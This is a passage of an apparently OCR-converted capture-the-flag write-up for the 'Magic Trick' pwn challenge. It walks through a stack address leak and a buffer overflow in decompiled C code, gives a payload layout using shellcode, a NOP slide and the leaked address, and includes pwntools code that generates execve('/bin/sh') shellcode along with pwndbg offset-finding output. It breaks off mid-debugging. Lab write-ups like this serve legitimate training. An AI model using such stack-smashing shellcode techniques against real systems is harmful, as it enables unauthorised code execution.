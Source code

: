 ```c
  }
  printstr(pcVar2,0);
  printstr("[Hex-Magician]: Did you enjoy the trick after all?\n\n>> ",0);
  read(0,&local_48,0x4e);
  return;
}
```

Focusing on the important stuff.

* There is a `stack address` leak here: `printf("%p\'.",&local_48);` 

* `local_48` is a 48-bytes long buffer.
* `read(0,&local_48,0x4e);`stores in this buffer up to `0x4e` bytes (78 in decimal). 

Now that we discovered the bugs, we need to find the exploitation path to follow.

#### Exploitation path

What we know so far:

* The address of buffer we write to.
* There is a Buffer Overflow.
* `NX` is disabled. 

These three are more than enough for us to get shell on the system. The payload should look like this:

```python
payload = shellcode + nop_slide*overflow_offset + leaked_stack_address
```

#### Nop slides

[NOP slide](https://en.wikipedia.org/wiki/NOP_slide) is actually an instruction that does nothing, "sliding" the CPU's  instruction execution flow to the final destination. It is represented  with "\x90".

#### Shellcode

Shellcode is actually a set of instruction. We are going to call something like `system("/bin/sh")` or `execve("/bin/sh")`. We can find shellcodes online or create our owns. For this binary, we are going to use [pwntools shellcraft](https://docs.pwntools.com/en/stable/shellcraft.html) method:

```python
context.arch = 'amd64'
sc = asm(shellcraft.execve('/bin/sh'))
```

### Debugging 

First of all, we need to find the offset where we start overwriting the return address.

```gdb
pwndbg> cyclic 200
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa
pwndbg> r
Starting program: /home/w3th4nds/github/australia/pwn/[Easy] Magic Trick/challenge/magic_trick 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".




[Hex-Magician]: I will tell you a number and I want you to memorize it.

[Hex-Magician]: Now I want you to add 0x10 to this number ok?

```

[Hex-Magician]: Now, multiply the result with 0x20.
[Hex-Magician]: Now, divide the result with 0x20 and then subtract 0x10!
[Hex-Magician]: Is this your initial number?
[Hex-Magician]: Of course it is! I'm the greatest Hex-Magician!